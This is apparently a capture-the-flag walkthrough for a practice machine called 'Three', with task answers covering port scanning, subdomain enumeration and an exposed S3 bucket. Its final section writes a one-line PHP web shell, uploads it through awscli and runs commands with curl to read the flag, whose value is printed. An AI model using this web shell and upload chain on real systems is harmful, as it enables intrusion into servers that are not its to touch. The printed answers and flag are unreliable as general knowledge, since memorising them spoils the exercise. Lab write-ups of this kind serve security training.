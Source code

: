 # Three - Very Easy

IP = 10.129.65.188

## Task 1 - How many TCP ports are open?

```bash
nmap -sV $IP
```

> Answer:
> 2

## Task 2 - What is the domain of the email address provided in the "Contact" section of the website?

> Answer:
> thetoppers.htb

## Task 3 - In the absence of a DNS server, which Linux file can use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

> Answer:
> /etc/hosts

```bash
echo "$IP thetoppers.htb" | sudo tee -a /etc/hosts
```

## Task 4 - Which sub-domain is discovered during futher enumeration?

```bash
gobuster vhost -w /usr/share/spiderfoot/dicts/subdomains-10000.txt -u http://$IP
```

> Answer:
> s3.thetoppers.htb

```bash
echo "$IP s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

## Task 5 - Which service is runnig on the discovered sub-domain?

> Answer:
> Amazon s3

## Task 6 - Which command line utility can be used to interact with the service running on the discovered sub-domain?

> Answer:
> awscli

## Task 7 - Which command is used to set up the AWS CLI installation?

> Answer:
> aws configure

## Task 8 - What is the command used by the above utility to list all of the S· buckets?

> Answer:
> aws s3 ls --endpoint=http://s3.thetoppers.htb

## Task 9 - This server is configured to run files written in what web scripting language?

> Answer:
> PHP

## Submit flag - Submit root flag

```bash
# Create a RCE 
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload the RCE
aws s3 cp shell.php s3://thetoppers.htb --endpoint=http://s3.thetoppers.htb

# Search for the flag
curl http://thetoppers.htb/shell.php?cmd=find%20/%20-name%20flag.txt%202>/dev/null

# Execute the shell
curl http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt
```

> Answer:
> a980d99281a28d638ac68b9bf9453c2b
